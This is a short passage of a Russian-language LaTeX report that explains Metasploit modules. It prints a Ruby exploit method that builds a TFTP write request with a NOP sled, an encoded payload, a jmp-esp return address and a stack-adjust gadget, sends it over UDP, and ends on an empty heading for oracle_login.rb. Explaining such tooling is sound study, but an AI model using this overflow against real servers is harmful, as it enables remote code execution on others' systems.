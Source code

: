 \documentclass[10pt,a4paper]{report}
\begin{document}
 После чего генерируются длинные имена (make\_nops(25 - datastore['LHOST'].length)) и отправляются по протоколу UDP (udp\_sock.put(sploit)).
 \begin{verbatim}
  def exploit
     connect_udp
 
     sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
     sploit << payload.encoded
     sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
     sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
     sploit << "\x00" + "netascii" + "\x00"
 
     udp_sock.put(sploit)
 
     disconnect_udp
   end
 \end{verbatim}
		\subsection{oracle\_login.rb}
			Исходный код скрипта:
			
\end{document}
